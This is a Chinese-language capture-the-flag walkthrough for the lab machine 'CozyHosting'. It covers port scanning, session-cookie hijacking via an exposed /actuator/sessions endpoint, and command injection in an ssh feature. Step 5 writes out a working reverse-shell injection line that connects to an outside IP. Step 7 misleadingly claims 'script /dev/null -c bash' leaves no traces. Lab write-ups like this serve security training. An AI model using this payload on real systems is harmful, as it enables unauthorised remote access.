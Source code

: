 ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ca53d48d-8c3e-4d90-9c0b-5992be7d2797)CozyHosting Level:Easy
===
尋找user.txt
---
1.Nmap掃描IP，發現有開22、80

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/be94bec4-7737-4fb2-8017-4f20fccf7517)

2.使用dirsearch搜尋目錄，找到/actuator/sessions，內容跟session有關

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/969ec080-c913-4f63-b819-1aa035fd5303)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a068678f-5ba5-48ce-8923-3fc98f91c180)

3.透過session cookie登入Web

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/df05fe7b-4e80-4c59-b946-eb1746901947)

4.找到疑似可執行ssh，透過burpsuite抓包測試確認可以執行指令

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f05c4cc3-a6d0-4d1f-bfd4-33d3ab5bcc4e)

5.插入reverse shell取得shell

     ;`(sh)0>/dev/tcp/10.10.14.62/1234`   ;表示指令分隔符，它可以讓你在一行中連續執行多個指令。 ``反引號（backticks），表示執行包裹在其內部的命令，並將其輸出插入到命令列中。
 
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/eb0de815-97af-4104-bfd9-5ccb5aea6225)

6.輸入exec >&0，它會將腳本或程式的輸出重新定向到標準輸入，這通常被用於隱藏輸出或將輸出發送到相同的地方作為輸入，以便與輸入進行互動。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9048a526-b34b-46a3-834b-158df8333b02)

7.最後輸入script /dev/null -c bash，將輸出記錄到/dev/null就會被拋棄。這樣執行的命令不會在目標上留下任何痕跡

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1d0621b2-8094-4c44-b98c-00f323093450)
